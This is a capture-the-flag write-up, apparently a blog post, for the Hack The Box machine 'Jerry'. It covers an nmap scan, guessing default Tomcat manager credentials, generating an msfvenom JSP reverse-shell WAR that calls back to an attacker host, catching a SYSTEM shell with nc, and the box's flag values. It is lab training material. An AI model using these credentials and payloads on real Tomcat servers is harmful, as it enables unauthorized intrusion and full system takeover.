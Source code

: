 ```yaml
---
layout: post
title: Jerry
tags: [OSCP, Writeup, Windows, Arbitrary File Upload, Web, File Misconfiguration]
description: "Jerry write-up"
---
```


![Jerry logo](/assets/imgs/jerry/jerry.png)

### This is an easy windows box

## Tools used

------

- msfvenom
- nc
- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA jerry 10.10.10.95 -v -Pn

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Here’s what nmap teaches us :

- port 8080 (HTTP) - Apache Tomcat 7.0.88

There is only one port open and it's a web port, let's check it :

![Tomcat interface](/assets/imgs/jerry/tomcat_interface.PNG)

This is a default Tomcat page, let's try to connect.

## Exploit

------

Click "Manager App", it asks for authentication :

![Authentication required](/assets/imgs/jerry/authentication_required.PNG)

Try default credentials :

- tomcat:tomcat - no
- admin:admin - no
- admin:password - no
- user:password - no
- tomcat:s3cret - yes

![Tomcat connected](/assets/imgs/jerry/connected.PNG)

I'm now connected nice ! Now that I'm connected, I can get a reverse shell thanks to "war upload" ([https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)). I used msfvenom to generate a reverse shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f war > shell.war
Payload size: 1093 bytes
Final size of war file: 1093 bytes
```

Upload the war file :

![War deploy](/assets/imgs/jerry/war_deploy.PNG)

Start a nc listener :

```
nc -lvp 1234
```

Click on the '/shell' button, I'm redirected to this URL :

```
http://10.10.10.95:8080/shell/
```

Go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

And I'm already nt authority\system ! Now go read the flags, there both on the administrator desktop in one file :

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,649,088 bytes free
```

This box was too easy ! 

## Flags

------

### User.txt

```
7004dbcef0f854e0fb401875f26ebd00
```

### Root.txt

```
04a8b36e1545a455393d067e772fe90e
```